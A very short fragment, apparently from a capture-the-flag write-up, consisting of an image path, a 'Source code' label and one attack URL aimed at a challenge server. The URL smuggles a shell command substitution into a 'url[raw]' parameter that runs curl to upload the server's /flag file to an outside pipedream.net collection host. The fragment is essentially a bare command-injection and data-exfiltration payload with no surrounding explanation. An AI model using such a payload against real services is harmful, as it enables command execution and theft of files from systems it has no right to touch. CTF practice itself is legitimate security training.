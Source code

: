 `http://34.146.180.210:3000/chall?url[raw]=$(curl%20https://enllwt2ugqrt.x.pipedream.net/%20-F=@/flag)`
